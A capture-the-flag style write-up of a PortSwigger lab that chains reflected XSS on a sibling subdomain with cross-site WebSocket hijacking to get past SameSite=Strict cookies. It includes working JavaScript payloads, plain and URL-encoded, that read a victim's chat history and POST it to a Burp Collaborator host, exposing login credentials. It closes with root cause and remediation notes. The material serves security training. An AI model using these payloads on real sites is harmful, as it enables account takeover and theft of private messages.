






## Metadata

- **Difficulty:** Practitioner
- **Category:** CSRF
- **Lab URL:** [Lab: SameSite Strict bypass via sibling domain](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)
- **Date Solved:** 10/9/2026
## Vulnerability Summary

The app's live chat functionality is vulnerable to Cross-Site WebSocket Hijacking (CSWSH) due to a reliance on SameSite cookies and a reflected XSS vulnerability on a sibling domain. The WebSocket command `READY` retrieves past chat message from the server. Though `SameSite=Strict` is enabled for cookie handling on the main app, we can exploit a XSS vulnerability in the sibling domain to perform CSRF.
## Reconnaissance

- Navigate to the live chat feature at `/chat` and send a normal message via the chat interface (`aaa`). In Burp Suite > Proxy > WebSockets history, the messages are transmitted as JSON objects:
```json
{"message":"aaa"}
```
- When the page is reloaded, notice that there's a websocket request to the server with the command `READY`, that the server uses to retrieve the chat log:

- The `/chat` endpoint is configured with `SameSite=Strict`:

- Because of this, using the same payload as the one in [Lab: Cross-site WebSocket hijacking](../../../WebSockets/cross-site-websocket-hijacking/writeup.md) and delivering it to the victim resulted in our Burp Collaborator still being able to exfiltrate the chat log, but for a brand new this session. `SameSite=Strict` prevented the victim's cookie to be appended into our request. This brand new session does not contain anything, so it's not of much help.

Like the lab's name suggests, we need to find a sibling domain. Inspecting the site in the Target tab, in the response to `GET /resources/js/chat.js`, we find a sibling domain within a `Access-Control-Allow-Origin` header, `https://cms-labid.web-security-academy.net:

- Visiting this site reveals a login form. Inputting random alphanumeric characters as `username` and `password` reveals that our `username` parameter is reflected in the response with no sanitization or validation. The site might be vulnerable to XSS. Injecting the standard `<script>alert(1)</script>` payload into the `username` parameter confirms it:

We need to use this sibling domain to craft a XSS payload that performs CSRF, then deliver it to the victim. This works, because browsers treats all subdomains under the same root domain (TLD+1) as "same site". Thus, the victim's session cookie will be automatically supplied in the forged request.
- We also notice that XSS works with a `GET` method request on the sibling domain (`GET /login?username=<script>alert(2)</script>&password=a`).
## Exploitation Steps

1. In the Collaborator tab in Burp Suite, generate a Burp Collaborator domain.
2. URL-encode this payload below. Remember to URL-encode the `"`, `'`, `<` and `>` characters, else it will break. These are the characters that aren't automatically encoded when you use "URL-encode key characters" in Burp (yes, I tried it).
```js
<script>
const wsUri = "wss://lab-id.web-security-academy.net/chat";
var socket = new WebSocket(wsUri);
socket.onopen = function() {
socket.send("READY");
};
socket.onmessage = function(event) {
fetch('https://burp-collaborator-domain', {method: 'POST', mode: 'no-cors', body: event.data});
};
</script>
```
The resulting payload would look something like this:
```
=%3Cscript%3Econst+wsUri+%3d+%22wss%3a//lab-id.web-security-academy.net/chat%22%3bvar+socket+%3d+new+WebSocket(wsUri)%3bsocket.onopen+%3d+function()+{socket.send(%22READY%22)%3b}%3bsocket.onmessage+%3d+function(event)+{fetch(%27https%3a//burp-collaborator-domain%27,+{method%3a+%27POST%27,+mode%3a+%27no-cors%27,+body%3a+event.data})%3b}%3b%3C/script%3E&password=a
```
3. We need to deliver this payload in a crafted, injected URL of the **sibling domain**. Using the `username` parameter of the sibling domain, craft a `GET` request at the `/login` endpoint. Store, and deliver this payload to victim:
```js
<script>
document.location = "https://cms-lab-id.web-security-academy.net/login?username=%3Cscript%3Econst+wsUri+%3d+%22wss%3a//lab-id.web-security-academy.net/chat%22%3bvar+socket+%3d+new+WebSocket(wsUri)%3bsocket.onopen+%3d+function()+{socket.send(%22READY%22)%3b}%3bsocket.onmessage+%3d+function(event)+{fetch(%27https%3a//burp-collaborator-domain%27,+{method%3a+%27POST%27,+mode%3a+%27no-cors%27,+body%3a+event.data})%3b}%3b%3C/script%3E&password=a"
</script>
```
4. Poll for interactions in your Burp Collaborator tab. You should see that the HTTP interactions contain the victim's chat history (not in chronological order). Read all of the requests' body. We can infer that the victim forgot the password and asked the chatbot for it. In one of these request, the chatbot replies with the victim's credentials:

5. Use these credentials to log into `carlos`'s account. You should be able to do so successfully, and lab is solved.
## Payload Used

```js
<script>
document.location = "https://cms-lab-id.web-security-academy.net/login?username=%3Cscript%3Econst+wsUri+%3d+%22wss%3a//lab-id.web-security-academy.net/chat%22%3bvar+socket+%3d+new+WebSocket(wsUri)%3bsocket.onopen+%3d+function()+{socket.send(%22READY%22)%3b}%3bsocket.onmessage+%3d+function(event)+{fetch(%27https%3a//burp-collaborator-domain%27,+{method%3a+%27POST%27,+mode%3a+%27no-cors%27,+body%3a+event.data})%3b}%3b%3C/script%3E&password=a"
</script>
```
This payload successfully bypasses the `SameSite=Strict` restriction because browsers evaluate "site" based on the Top-Level Domain plus one (TLD+1). Both `cms-lab-id.web-security-academy.net` and `lab-id.web-security-academy.net` share the same registrable domain (`web-security-academy.net`).

By forcing the victim to navigate to the vulnerable `cms` sibling domain, the injected XSS payload executes in the context of that sibling origin. When the JavaScript initiates a WebSocket connection to the main domain's chat endpoint, the browser considers this a same-site request and attaches the victim's session cookie. Furthermore, WebSockets do not respect the Same-Origin Policy (SOP) or Cross-Origin Resource Sharing (CORS) restrictions, allowing the cross-origin connection to succeed, retrieve the chat log that contains the victim's credentials, and exfiltrate it to the our Collaborator server.
## Root Cause

The app's compromise is the result of chaining two vulnerabilities:

1. **Reflected Cross-Site Scripting (XSS):** The cms sibling domain reflects the `username` parameter in the HTTP response of a GET request without applying input validation or context-aware output encoding.
2. **Cross-Site WebSocket Hijacking (CSWSH):** The WebSocket endpoint on the main app relies exclusively on the session cookie for authentication and authorization. It fails to implement anti-CSRF tokens or origin validation during the WebSocket handshake.
## Remediation

- Apply strict, context-aware output encoding (e.g., HTML entity encoding) to the `username` parameter before reflecting it in the DOM or HTTP response on the CMS application.
- Implement an unpredictable CSRF token during the WebSocket initialization. Since standard headers cannot be set in the `WebSocket()` JavaScript API, pass the token as a URL query parameter (e.g., `wss://lab-id.../chat?token=RANDOM_STRING`) and validate it on the server before upgrading the connection.
- Enforce strict validation of the `Origin` header during the WebSocket handshake on the server side. Explicitly reject connections where the `Origin` does not match the exact expected application domain (dropping requests originating from the `cms` sibling domain).